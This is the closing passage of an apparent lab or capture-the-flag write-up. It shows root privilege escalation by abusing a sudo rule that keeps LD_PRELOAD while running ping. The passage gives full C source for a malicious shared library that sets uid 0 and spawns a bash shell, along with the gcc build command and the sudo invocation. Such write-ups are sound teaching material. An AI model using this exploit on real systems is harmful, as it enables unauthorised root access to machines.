 We can run ping as root, but that's not useful for us.

The other thing we see is `env_keep+=LD_PRELOAD`, and with this we can easily get root.

> LD_PRELOAD means basicly that we can specify a shared library to run before the program(ping). for more information check [here](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
{: .prompt-info }

First we need to write the following c code to a file.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Now we compile the file using the following command:

```bash
gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
```

> Assuming you named the file exploit.c, otherwise change the name.

Now we run the sudo command:

```bash
sudo LD_PRELOAD=/home/saad/exploit /usr/bin/ping
```

![root](5.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
